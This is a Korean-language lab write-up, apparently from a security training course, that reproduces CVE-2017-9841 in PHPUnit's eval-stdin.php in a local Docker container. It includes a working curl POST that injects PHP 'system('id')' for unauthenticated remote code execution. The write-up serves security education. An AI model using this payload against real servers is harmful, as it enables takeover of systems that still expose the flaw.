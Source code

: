 # CVE-2017-9841

> 화이트햇 스쿨 3기 - 김수연 (ksuyeon0124@gmail.com)

깃허브 주소 : https://github.com/f3s123/kr-vulhub
&nbsp;
### CVE 요약

- PHPUnit에 있는 `eval-stdin.php` 파일이 사용자 입력을 그대로 `eval()`로 실행한다.
- 공격자가 POST 요청으로 악성 PHP 코드를 보내 서버에서 실행 가능하다.
- 인증 없이 **원격 코드 실행(RCE)**이 가능해서 서버의 완전 장악이 가능하다.  

&nbsp;   
### 환경 구성

- 아래 커멘드를 입력하여 컨테이너를 올렸다.
    - `docker compose up -d`  

&nbsp;
### 취약점 실행

- 아래 명령어를 입력해서 이 시스템의 id를 출력해보려고 한다. 이 PHP 코드는 서버에서 **`id` 명령어**를 실행하는 명령어이다.

```bash
curl -X POST http://127.0.0.1:8080/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php -d "<?php system('id'); ?>"
```

- 아래와 같이 정보가 출력되는 것을 확인할 수 있다.

![result](https://github.com/user-attachments/assets/912fee33-a20d-4fdd-aded-b316897f61c9)  

&nbsp;       
### 정리

- 원래는 서버에서 사용자 입력의 실행이 금지되어야 하는데, `eval-stdin.php` 로 인해 실행이 된다. 하여 서버로 `system`의 `id`를 출력하는 명령어를 보냈는데, 그 정보를 그대로 출력하는 것을 확인할 수 있었다.

&nbsp;   
